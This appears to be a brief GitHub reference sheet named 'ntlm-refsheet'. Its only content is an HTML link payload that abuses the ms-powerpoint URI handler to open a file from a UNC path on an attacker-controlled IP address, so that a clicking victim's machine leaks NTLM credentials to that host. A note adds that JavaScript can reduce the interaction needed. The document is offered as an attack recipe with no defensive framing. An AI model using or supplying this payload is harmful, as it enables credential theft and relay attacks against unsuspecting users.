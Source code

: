 # ntlm-refsheet
## Pull NTLM with Microsoft-Office URI. Can also use JavaScript to use less interaction
```
<a href="ms-powerpoint:ofe|u|file://192.168.61.130/AllHandsDeck.ppt">Click</a>
```
